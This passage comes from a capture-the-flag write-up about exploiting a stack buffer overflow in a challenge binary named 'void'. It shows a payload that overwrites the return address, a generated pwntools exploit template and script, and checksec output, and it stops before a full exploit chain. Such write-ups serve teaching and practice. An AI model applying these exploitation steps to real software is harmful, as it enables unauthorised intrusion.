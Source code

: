 7. Run this. If we're correct, the return address should be `0x4141414141414141`. We run 

```bash
r < payload2.txt
``` 

and...

```bash
0x401142 <vuln+32>    ret                                <0x4141414141414141>
```
success, we're in! (_almost_)

## Generate Pwn Script
I like to use the default template pwntools generates. 

I haven't started the remote host yet, so host and port are just placeholders, for now.

```bash
pwn template --host 0.0.0.0 --port 1337 --libc ./glibc/libc.so.6 void > exploit.py
```

### Testing the Script
I use `tmux` and `docker` to solve pwn challenges, and an inconvience of this is that I need
to use multiple panes to interact with the script. 

We launch the script in one pane and block
using Python's `input()` function. 

Here is the "main" of the script:

```python
io = start()

payload = fit({
    72: b'A' * 8,
}, length=199)

input('\n[Press ENTER to send payload]\n')
io.send(payload)

io.interactive()
```

We run it

```bash
python3 exploit.py LOCAL LOCAL_LIBC
```

and see

```bash
root@4a0d0942050b:/pwn# python3 exploit.py LOCAL LOCAL_LIBC
[*] '/pwn/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/pwn/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/pwn/void': pid 1052

[Press ENTER to send payload]
```